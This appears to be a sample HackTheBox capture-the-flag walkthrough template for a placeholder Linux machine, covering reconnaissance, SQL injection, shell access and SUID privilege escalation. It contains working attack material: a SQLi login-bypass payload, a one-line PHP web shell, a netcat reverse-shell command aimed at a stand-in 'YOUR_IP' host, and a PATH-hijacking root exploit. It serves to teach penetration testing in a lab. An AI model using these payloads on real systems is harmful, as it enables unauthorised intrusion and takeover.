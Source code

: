 # Example Machine - HTB Walkthrough

> **Note:** This is an example walkthrough to demonstrate the system. Replace this content with your own walkthroughs.

## 📋 Information

- **Machine:** Example Machine
- **Platform:** HackTheBox
- **OS:** Linux
- **Difficulty:** Medium
- **Solved Date:** January 2025

---

## 🎯 Summary

This machine is an excellent exercise for practicing web exploitation, Linux enumeration, and privilege escalation via SUID files.

**Required Skills:**
- Basic web enumeration
- SQL Injection
- Linux enumeration
- Vulnerability research

**Skills Learned:**
- Advanced SQLi exploitation
- Privilege escalation via SUID
- Source code analysis

---

## 🔍 Reconnaissance

### Nmap Scan

```bash
nmap -sC -sV -oN nmap/initial 10.10.10.100
```

**Results:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.41
```

### Web Enumeration

Visiting the website, we discover a management application with several features.

```bash
gobuster dir -u http://10.10.10.100 -w /usr/share/wordlists/dirb/common.txt
```

**Important Discoveries:**
- `/admin` - Admin panel (login required)
- `/upload` - File upload feature
- `/api` - API endpoint

---

## 🚪 Initial Foothold

### SQL Injection Vulnerability

The login form is vulnerable to SQL injection.

**Basic Test:**
```http
POST /login HTTP/1.1
Host: 10.10.10.100

username=admin' OR 1=1--&password=anything
```

### Exploitation with SQLMap

```bash
sqlmap -u "http://10.10.10.100/login" \
  --data="username=admin&password=test" \
  --dbs
```

We found a `webapp` database containing credentials.

### Initial Shell

After obtaining the credentials, we can upload a PHP reverse shell:

```php
<?php system($_GET['cmd']); ?>
```

```bash
# On our machine
nc -lvnp 4444

# Via the browser
http://10.10.10.100/uploads/shell.php?cmd=nc -e /bin/bash YOUR_IP 4444
```

Shell obtained as `www-data`.

---

## 👤 User Flag

### Local Enumeration

```bash
# List users
cat /etc/passwd | grep -v nologin

# Search for interesting files
find /var/www -type f -name "*.conf" 2>/dev/null
```

We find credentials in `/var/www/html/config.php`:

```php
$db_user = "developer";
$db_pass = "P@ssw0rd123!";
```

### User Escalation

These credentials work via SSH:

```bash
ssh developer@10.10.10.100
```

**User Flag:**
```bash
cat /home/developer/user.txt
```

---

## 🔐 Root Flag

### Privilege Enumeration

```bash
# Check SUID binaries
find / -perm -4000 2>/dev/null
```

We find a custom binary `/opt/backup` that is SUID root.

### Binary Analysis

```bash
strings /opt/backup
```

The binary calls `tar` without an absolute path!

### Privilege Escalation

We can exploit PATH hijacking:

```bash
cd /tmp
echo "/bin/bash" > tar
chmod +x tar
export PATH=/tmp:$PATH
/opt/backup
```

### Root Access

```bash
whoami
# root

cat /root/root.txt
```

---

## 🎓 Lessons Learned

### What I Learned

1. **SQL Injection:** How to identify and exploit SQLi in a login form
2. **Path Hijacking:** Privilege escalation technique via PATH manipulation
3. **Enumeration:** The importance of thorough enumeration of configuration files

### Key Takeaways

- ⚠️ Always test inputs for SQL injections
- 💡 Check configuration files for credentials
- 🔑 Custom SUID binaries are often vulnerable

---

## 🛠️ Tools Used

- **Nmap** - Port scanning
- **Gobuster** - Directory enumeration
- **SQLMap** - SQL Injection automation
- **Burp Suite** - HTTP request analysis
- **Netcat** - Reverse shell

---

## ⚠️ Disclaimer

This walkthrough is for educational purposes only. Use these techniques only on machines you have permission to access (like HackTheBox, TryHackMe, etc.).

---

**Written:** January 2025  
**Author:** Samuel Tesson
